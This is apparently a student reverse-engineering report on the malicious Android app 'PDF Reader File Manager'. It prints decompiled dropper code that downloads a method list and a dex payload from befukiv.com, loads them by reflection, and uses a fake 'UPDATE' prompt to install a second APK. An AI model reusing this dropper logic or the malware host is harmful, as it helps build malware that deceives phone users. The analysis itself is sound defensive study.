

# Table of Contents
1. [Introduction](#introduction)
2. [Environment and Tools](#environment-and-tools)
3. [Exploration Steps](#exploration-steps)
4. [Conclusions](#conclusions) 

# Introduction

For our reverse engineering course, we've chosen to analyze and reverse engineer the "PDF Reader File Manager" application. This app gained notoriety earlier this year when it was removed from the Play Store. It was developed with the intention of stealing data from Android users, as detailed in this article [here](https://www.tomsguide.com/computing/malware-adware/these-malicious-android-malware-apps-were-downloaded-150000-times-from-the-play-store-delete-them-right-now).

# Environment and Tools

## Environment
To explore this application, we first focused on using a **secure environment** where we could ensure that the finding **wouldn't harm** the host system, and prevent the **system from tainting** any of the possible findings.

We used Vagrant to set up a [Kali box](https://app.vagrantup.com/kalilinux/boxes/rolling) where we could import the provided raw files for evaluation. Also [REMnux Docker container](https://docs.remnux.org/install-distro/remnux-as-a-container) was used for further forensic exploration.

## Tools

[TODO]

# Exploration Steps & Findings

## Unpack

Unzipping the file with `7za PDF_Reader_File_Manager.zip` yields the files and directory displayed below.


With a bit of investigation, we can uncover that XAPK files are essentially a package containing APKs along with other files. To extract these, we can once more utilize `7za` by running it with the XAPK file. Now, we have multiple APKs, a PNG, and a JSON file.


When attempting to execute `apktool d 1.apk` or `jadx -d out 1.apk`, we encounter an error. This issue doesn't arise with any other APK. Upon inspecting the file signatures, we discover that **1.apk is not a valid APK** file.


Indeed, if we try to unzip the file, we can retrieve multiple files.


## Decompiling

We now have a large set of files from the application, however, many of them are not relevant to what we are trying to achieve and can blur our view over the whole of the application.

From all of the APKs found, the first focus on the _com.tragisoap.fileandpdfmanager.apk_ has it probably is the main application, and if anything malicious is to happen, it should first come from here.

Using `apktool`, we can expose the inner contents of the bundle. To do this we can use the following command.

```bash
apktool d -r -s com.tragisoap.fileandpdfmanager.apk
```

From this, the most crucial file is the classes.dex file, from which we can reassemble the Java class files. To accomplish this, we can utilize `jadx` with the following command.

```bash
jadx -d out classes.dex
```

## Walkthrough



We commence our analysis in the _com.tragisoap.fileandpdfmanager.MainActivity_ class, as it serves as the application's starting point. From this class, we observe a few listeners for clicking, which is expected in a mobile application.

To reconstruct the malicious flow, we turn our attention to the _PreviewActivity_ class, which retrieves a variable from _FileManagerService_ that appears to be a counter of some sort. I cannot trace its usage, assuming it is utilized at all, but we can delve into the class it originates from.

The _FileManagerService_ is relatively small, and its behavior is, for lack of a better word, peculiar. It merely attempts to call two methods, and if unsuccessful, it either prints the stack trace of the error or returns to the _MainActivity_ after setting a flag.

```java
public final void a() {
    try {
        Malicious.fetchFilesAndProcess();                   // <--- Suspicious call
        try {
            Malicious.makePdfPage.invoke(null, this);       // <--- Suspicious call
        } catch (IllegalAccessException | InvocationTargetException e) {
            e.printStackTrace();
        }
    } catch (Throwable th) {
        th.printStackTrace();
        Intent intent = new Intent(this, MainActivity.class);
        intent.addFlags(268435456);
        startActivity(intent);
    }
}
```

We inspect the content of the first method called, _fetchFilesAndProcess_, and it has the following structure.

```java
public static void fetchFilesAndProcess() {
    String str;
    Session session = new Session();
    HttpHandler.getRequest getrequest = new HttpHandler.getRequest();
    getrequest.request("https://befukiv.com/muchaspuchas");
    HttpHandler call = getrequest.call();
    HttpHandler.getRequest getrequest2 = new HttpHandler.getRequest();
    getrequest2.request("https://befukiv.com/cortina");
    HttpHandler call2 = getrequest2.call();
    try {
        ParseHttpResponseBody parseHttpResponseBody = new setupTls(session, call).Execute().responseBody;
        byte[] parse = parseHttpResponseBody.parse();
        TwoStrings twoStrings = parseHttpResponseBody.getTwoStrings();
        Charset charset = z4.h.utf8Charset;
        if (twoStrings != null && (str = twoStrings.secondStr) != null) {
            charset = Charset.forName(str);
        }
        muchasStrings.set(new String(parse, charset.name()).split("\\|"));
        byte[] parse2 = new setupTls(session, call2).Execute().responseBody.parse();
        if (fetchAndProcessCompleted.get()) {
            return;
        }
        fw.getClass();
        WriterFile.mapMuchasPuchasToMethods(parse2);
        fetchAndProcessCompleted.set(true);
    } catch (Throwable th) {
        th.printStackTrace();
    }
}
```

Although it's obfuscated, we can discern that it's accessing files from the domain befukiv.com to download two files. A DNS search unveils that this domain has two name servers pointing to domains in Russia.

```
...
Registrant Email: http://whois.nicenic.net/?page=whoisform
Admin Email: http://whois.nicenic.net/?page=whoisform&emailtype=admin
Tech Email: http://whois.nicenic.net/?page=whoisform&emailtype=tech
Name Server: NS1.ERANS.RU
Name Server: NS2.ERANS.RU
DNSSEC: unsigned
...
```

At the time of writing this report, the server is accessible, but the resources are not available (it returns a 'not found' response). However, we have access to these files as they were previously downloaded, allowing us to continue our analysis.

### Exploring 'muchaspuchas'

The 'muchaspuchas' file appears to consist of Java method or class names separated by the '|' character. The function responsible for downloading this file splits its contents by the '|' character.

```
dalvik.system.InMemoryDexClassLoader|getClassLoader|loadClass|com.travisscott.pdf.MainLibrary|...
```

This indicates that the authors may have intended to obfuscate application method calls using reflection. To verify this assumption, we opted to analyze the _mapMuchasStringsToMethods_ method and rename its methods.

```java
    public static void mapMuchasPuchasToMethods(byte[] bArr) {
        Class inMemoryDexClassLoader = (Class) getClassInstanceByMethodName(Malicious.muchasStrings.get()[0]); // dalvik.system.InMemoryDexClassLoader
        Class cls = (Class) inMemoryDexClassLoader.getMethod(Malicious.muchasStrings.get()[2], String.class).invoke(inMemoryDexClassLoader.getConstructor((Class) getClassInstanceByMethodName(Malicious.muchasStrings.get()[11]), (Class) getClassInstanceByMethodName(Malicious.muchasStrings.get()[12])).newInstance(ByteBuffer.wrap(bArr), Class.class.getMethod(Malicious.muchasStrings.get()[1], new Class[0]).invoke(Malicious.class, new Object[0])), Malicious.muchasStrings.get()[3]);
        Malicious.makePdfPage = getClassMethod(cls, Malicious.muchasStrings.get()[10], Context.class);
        Malicious.readPdfFile = getClassMethod(cls, Malicious.muchasStrings.get()[7], Context.class);
        Malicious.getFirstText = getClassMethod(cls, Malicious.muchasStrings.get()[5], new Class[0]);
        Malicious.getSecondText = getClassMethod(cls, Malicious.muchasStrings.get()[6], new Class[0]);
        Method init = getClassMethod(cls, Malicious.muchasStrings.get()[4], Class.class, Class.class);
        Malicious.launch = getClassMethod(cls, Malicious.muchasStrings.get()[9], Context.class);
        Malicious.getName = getClassMethod(cls, Malicious.muchasStrings.get()[8], Context.class);
        init.invoke(null, PartPreviewActivity.class, MainActivity.class);
    }
```

From this, we observe that the function utilizes Java reflection to dynamically assign variables of the Malicious class based on methods/classes names obtained from the _muchaspuchas_ file.

The _mapMuchasStringsToMethods_ method takes as an argument a byte array containing data from the _cortina_ file. It appears to load a class based on the binary file. Consequently, we have decided to proceed by analyzing the _cortina_ file as our next step.

### Exploring 'cortina'

The second file, _cortina_, does not exhibit a structure that we can directly observe. Because of this, we decided to use the `file` tool to discover the format of the file.

```bash
file cortina
```

This returns a result indicating that indeed, _cortina_ is a **Dalvik dex file**. This can be confirmed by examining the file signature and matching it against a known dex file, which confirms the result.

Using `apktool` or JADX, we can then open the cortina.dex file and find that it contains a package called _com.travisscot.pdf_. Recalling what was already processed when the application used reflection to create new methods and reading the _muchaspuchas_ file, we observe that at the end of the _mapMuchasPuchasToMethods_ method, **this new imported package is initialized**. Therefore, we can assume that what these files have done was **expand the existing application with new functionalities previously unknown**.

```java
public static void init(Class<? extends Activity> PartPreviewActivity2, Class<? extends Activity> mainClass2) {
    PartPreviewActivity = PartPreviewActivity2;
    MainActivity = mainClass2;
}
```

The initialization of the _travisscot_ package only involves loading the _PartPreviewActivity_ and the _MainActivity_, most likely to facilitate traversal between the legitimate application and this new package. Once this is completed, we will begin to see the methods defined in this package being called.

Recalling the _FileManagerService_ previously mentioned, we notice that it will invoke the _makePdfPage_ method. This method is defined in the _travisscot_ package.

```java
public static void makePdfPage(Context context) {
    ServiceHandler.handleWork(context);
}
```

It, in turn, calls yet another function, also from the _travisscot_ package, which is shown below.

```java
public static void handleWork(Context context) {
    if (Build.MODEL != null && !Build.MODEL.isEmpty() && Build.MANUFACTURER != null
            && !Build.MANUFACTURER.isEmpty()) {
        TelephonyManager tm = (TelephonyManager) context.getSystemService("phone");
        String country = tm.getNetworkCountryIso().isEmpty() ? "uat" : tm.getNetworkCountryIso();
        if (isManuFacturerGood() && !checkBuildConfig()) {
            if (!country.startsWith("es") && !country.startsWith("sk") && !country.startsWith("cz")
                    && !country.startsWith("ru") && !country.startsWith("hr") && !country.startsWith("si")
                    && !country.startsWith("sl") && !country.startsWith("bg") && !country.startsWith("ee")
                    && !country.startsWith("fi") && !country.startsWith("ie") && !country.startsWith("gb")) {
                Intent i = new Intent(context, MainLibrary.getMainActivity());
                i.addFlags(268435456);
                context.startActivity(i);
                return;
            }
            try {
                MainLibrary.url.set("https://befukiv.com/1.apk");
                Intent i2 = new Intent(context, MainLibrary.getPartPreviewActivity());
                i2.addFlags(268435456);
                context.startActivity(i2);
            } catch (Exception e) {
                e.printStackTrace();
                Intent i3 = new Intent(context, MainLibrary.getMainActivity());
                i3.addFlags(268435456);
                context.startActivity(i3);
            }
        }
    }
}
```

This method will check in which country the current device is operating and halt execution for a selected list of countries. We're uncertain why it does this. It could be due to the domain from which it attempts to download the file, _1.apk_, being blocked in those countries or to avoid legal issues. If the device is not in one of those countries, it stores the URL as an attribute of the _MainActivity_ class.

Following this, it creates a new _Intent_ object and starts the activity of the _PartPreviewActiviy_ class.

```java
@Override // androidx.fragment.app.q, androidx.activity.ComponentActivity, android.app.Activity
public final void onNewIntent(Intent intent) {
    super.onNewIntent(intent);
    Bundle extras = intent.getExtras();
    if ("com.tragisoap.fileexplorerpdfviewer.SESSION_API_PACKAGE_INSTALLED".equals(intent.getAction()) && extras.getInt("android.content.pm.extra.STATUS") == -1) {
        startActivity((Intent) extras.get("android.intent.extra.INTENT"));
    }
}
```

From this, we observe that when a new _Intent_ is created, the application queries the system regarding the status of a permission. With a brief online search, we can reasonably assert that this is a **permission related to the capability of a package to install other packages**. If the application has this permission, it proceeds to start the activity, leading us to the _onCreate_ method.

```java
public final void onCreate(Bundle bundle) {
    String str;
    String str2 = "tura dar";
    super.onCreate(bundle);
    s().t(1);
    getWindow().setStatusBarColor(0);
    setContentView(R.layout.part_preview);
    TextView textView = (TextView) findViewById(R.id.rse345234a);
    try {
        Malicious.launch.invoke(null, this);                                    // <--- travisscot method 
    } catch (IllegalAccessException | InvocationTargetException e) {
        e.printStackTrace();
    }
    Button button = (Button) findViewById(R.id.g234gasaa);
    try {
        str = (String) Malicious.getFirstText.invoke(null, new Object[0]);      // <--- travisscot method
    } catch (IllegalAccessException | InvocationTargetException e7) {
        e7.printStackTrace();
        str = "tura dar";
    }
    textView.setText(str);
    try {
        str2 = (String) Malicious.getSecondText.invoke(null, new Object[0]);    // <--- travisscot method
    } catch (IllegalAccessException | InvocationTargetException e8) {
        e8.printStackTrace();
    }
    button.setText(str2);
    button.setOnClickListener(new q(4, this));
}
```

This is where it starts to directly interact with the user in a suspicious manner. It first calls the _launch_ method.

```java
public static void launch(Context context) {
    downloadRecorderManager.startDownload(context, url.get());
}
```
```java
public class DownloadRecorderManager {
    private static final String FILE_BASE_PATH = "file://";
    public static final String FILE_NAME = "1.apk";
    private static final String MIME_TYPE = "application/vnd.android.package-archive";
    public static final AtomicBoolean downloaded = new AtomicBoolean(false);
    private static int sessionId;

    public void startDownload(Context context, String url) {
        String dest = (context.getExternalFilesDir(Environment.DIRECTORY_DOWNLOADS).toString() + File.pathSeparator) + FILE_NAME;
        Uri.parse(FILE_BASE_PATH + dest);
        File file = new File(dest);
        if (!file.exists()) {
            DownloadManager downloadManager = (DownloadManager) context.getSystemService("download");
            Uri downloadUri = Uri.parse(url);
            DownloadManager.Request request = new DownloadManager.Request(downloadUri);
            request.setMimeType(MIME_TYPE);
            request.setTitle(FILE_NAME);
            request.setDescription(FILE_NAME);
            request.setDestinationInExternalFilesDir(context, Environment.DIRECTORY_DOWNLOADS, FILE_NAME);
            registerDownloadReceiver(context);
            downloadManager.enqueue(request);
            return;
        }
        downloaded.set(true);
        showInstallDialog(context);
    }
    // ... more bellow
}

```

Here, it will initiate the download and installation of an APK package. If we recall from earlier, in the _ServiceHandler.handleWork_ method, a URL was set to download a file called _1.apk_.

We won't display all the code for the download as it is quite straightforward to understand. In essence, what is happening is that the application is now presenting dialog boxes to the user, as expected, prompting the user to grant permission to the application to install packages from external sources, which is a capability of Android that is, by default, disabled.

The sequence of operations between the methods of the class _DownloadRecorderManager_ for downloading the package is as follows.


Returning to the _PartPreviewActiviy.onCreate_ method, the _getFirstText_ and _getSecondText_ functions are probing the application language. Based on this, they print messages to the screen and the button, informing the user that the application needs to be updated and instructing them to press the button now displaying the "UPDATE" text. Subsequently, it sets an event listener on the button and passes the number 4 as an argument. But why? Let's find out!

```java
public final void onClick(View view) {
    EditText editText;
    PasswordTransformationMethod passwordTransformationMethod = null;
    switch (this.f3099f) {
        ...
        case 4:
            PartPreviewActivity partPreviewActivity = (PartPreviewActivity) this.f3100g;
            int i7 = PartPreviewActivity.D;
            partPreviewActivity.getClass();
            try {
                Malicious.readPdfFile.invoke(null, partPreviewActivity);
                return;
            } catch (IllegalAccessException | InvocationTargetException e) {
                e.printStackTrace();
                return;
            }
        ...
    }
    ...
}
```

Sure enough, we can see that it calls _travisscot.readPDFfile_. Essentially, this just checks if the malicious APK is still being installed.

```java
public static void readPDFfile(Context context) {
    if (DownloadRecorderManager.downloaded.get()) {
        downloadRecorderManager.showInstallDialog(context);
    } else {
        Toast.makeText(context, "Please wait until the download is finished", 0).show();
    }
}
```

If we revisit the flowchart previously displayed and follow it again to _travisscot.showNewInstallDialog2_ to display a dialog informing the user if the installation is still ongoing, we notice that it also links what seems to be a download status callback to a pending _Intent_ from the _PartPreviewActivity_ and sets the _Action_ to _"com.tragisoap.fileexplorerpdfviewer.SESSION_API_PACKAGE_INSTALLED"_.

Now, this is where things become complicated. As of the time of writing this report, we are still missing the link that leads to the calling of _PartPreviewActivity.onResume()_. However, we can clearly see that this, in turn, calls the _travisscot.getName()_ method.

```java
public static void getName(Context context) {
    String target = packageName.get();
    if (target != null && !target.isEmpty()) {
        PackageManager pm = context.getPackageManager();
        Intent launch = pm.getLaunchIntentForPackage(target);
        if (launch != null) {
            launch.addFlags(268435456);
            context.startActivity(launch);
        }
    }
}
```

And even without the explicit link, from all that we have gathered up to this point, it is quite evident that the package installed with _1.apk_ is now being launched.

### Exploring '1.apk'

1.apk file is a compressed file containing a dex file and other files such as assets. When we try to decompress it gives an error. We decided to decompress file by file to discover where it was failing, we found that there's one file called _AndroidManifest.xml_ that fails extraction.
We analyzed the file with _Binocle_ and we discovered that the file has a high entropy in the beginning and end of the file. Even with the use of _strings_ and hex editors we could not found any relevant information about _AndroidManifest.xml_.

But _1.apk_ contains a dex file with a lot of code (6.9MB) full of external libraries, including _facebook_, _alipay_, _alibaba_, ... packages.
However, there are some package with obfuscated names which could be the part of the code that is malicius.

<div style="display:flex;justify-content:center">

</div>

Going through the obfuscated package names, we encountered a package named "juw.khdqwmf.xftkgphgq.fhyu" containing Chinese characters. After translating these strings using Google Translate, we determined that these characters formed simple Chinese sentences unrelated to the application's purpose. Further exploration revealed that **these strings were translated into package names when passed through a function**. This indicates that the original authors chose to obscure package names using Chinese strings.

